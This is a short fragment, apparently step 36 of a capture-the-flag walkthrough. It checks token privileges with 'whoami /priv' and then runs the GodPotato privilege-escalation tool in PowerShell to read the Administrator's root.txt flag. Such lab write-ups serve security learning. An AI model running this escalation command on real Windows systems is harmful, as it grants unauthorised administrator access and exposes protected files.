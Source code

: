 **36.** INFO: Read is successful. Get ROOT.TXT. Additionally check:
whoami /priv

**RUN in POWERSHELL: ./GodPotato-NET4.exe -cmd \'cmd /c type
C:\\Users\\Administrator\\Desktop\\root.txt\'**

![](images/media/image61.png){width="4.480390419947507in"
height="3.5971555118110237in"}
